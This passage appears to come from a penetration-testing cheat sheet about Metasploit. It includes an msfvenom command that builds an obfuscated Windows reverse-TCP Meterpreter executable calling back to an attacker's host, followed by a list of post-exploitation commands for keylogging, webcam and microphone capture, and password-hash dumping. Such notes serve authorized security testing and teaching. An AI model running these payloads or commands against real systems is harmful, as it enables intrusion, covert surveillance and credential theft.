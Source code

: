 ##### Creating Custom Payloads with msfvenom
See (Msf Venom)[#msf-venom] for more details

- Generate an obfuscated reverse TCP shell for Windows:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f exe -e x86/shikata_ga_nai -i 3 > output.exe

### Post-Exploitation
Post-exploitation's goals are pretty open ended. You can try to maintain persistence, pivot around the network, etc.
This document has a lot of ideas: <http://www.pentest-standard.org/index.php/Post_Exploitation#File.2FPrinter_Shares>

#### What is Meterpreter
Meterpreter is like a shell, but it is harder to detect. as it runs entirely in memory and does not write to the disk. On Windows, this is accomplished via DLL injection on Windows, and on Linux it operates with ELF binaries and can employ methods such as injecting code into the memory spaces of existing processes.

+ `sysinfo`: This command retrieves and displays information about the remote system, such as its OS, architecture, and hostname.

+ `getuid`: It displays the user ID under which the Meterpreter server is running on the remote system.

+ `upload` and `download`: These commands allow you to upload files to the compromised system or download files from it.
    Example: upload /local/path/file.txt C:\\remote\\path\\file.txt

+ `shell`: This gives you a command shell on the remote system, allowing you to execute native commands.

+ `screenshot`: Captures a screenshot of the remote system's current desktop.

+ `keyscan_start` and `keyscan_dump`: These commands are used to start capturing keystrokes on the remote system (keyscan_start) and then retrieve the captured data (keyscan_dump).

+ `migrate`: Allows the Meterpreter session to migrate to another process. This is useful to ensure the session remains alive or to elevate privileges by migrating to a higher privilege process.

+ `ps`: Lists running processes on the remote system.

+ `kill`: Terminates a process on the remote system using its process ID.

+ `record_mic`: Records audio from the remote system's microphone.

+ `webcam_list` & `webcam_snap`: Lists available webcams and captures a photo from the specified webcam, respectively.

+ `hashdump`: Dumps the hashes from the compromised system, useful for offline password cracking.

## Further Reading
- [Msf Venom](#msf-venom)
  - [Encoders](#encoders)
- [Auxiliary Metasploit Tools](#auxiliary-metasploit-tools)
  - [Fuzzers](#fuzzers)
  - [Sniffers](#sniffers)
- [Metasploit Database](#metasploit-database)
- [Nmap Alternatives](#nmap-alternatives)
- [Metasploit Alternatives](#metasploit-alternatives)
- [Nmap Man Page](https://linux.die.net/man/1/nmap)

### Msf Venom
  ```